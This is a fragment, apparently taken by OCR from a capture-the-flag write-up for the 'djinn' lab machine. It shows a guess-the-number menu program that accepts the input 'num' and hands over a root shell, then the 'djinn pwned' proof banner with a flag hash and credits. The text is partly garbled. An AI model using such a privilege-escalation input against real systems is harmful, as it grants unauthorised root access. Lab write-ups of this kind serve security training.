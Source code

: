 What do you want to do ?

1 - Be naughty

2 - Guess the number

3 - Read some damn files

4 - Work

Enter your choice:2

2

Choose a number between 1 to 100:

Enter your number: num

num

\# whoami

whoami

root

bash proof.sh

'unknown': I need something more specific.

\_ \_ \_ \_ \_

/ \\ \_ \_\_ \__\_ \_\_ \_ \___(_)\_ \_\_ \_\_ \_\| \| \| \|

/ \_ \\ \| '\_ \` \_ \\ / \_\` \|\_ / \| '\_ \\ / \_\` \| \| \| \|

/ \__\_ \\\| \| \| \| \| \| (_\| \|/ /\| \| \| \| \| (_\| \|_\|_\|_\|

/_/ \\_\\_\| \|_\| \|_\|\\__,_/___\|_\|_\| \|_\|\\__, (_\|_\|_)

\|___/

djinn pwned...

\_________________________________________________________________________\_

Proof: 33eur2wjdmq80z47nyy4fx54bnlg3ibc

Path: /root

Date: Sun Dec 8 02:14:10 IST 2019

Whoami: root

\_________________________________________________________________________\_

By \@0xmzfr

Thanks to my fellow teammates in \@m0tl3ycr3w for betatesting! :-)
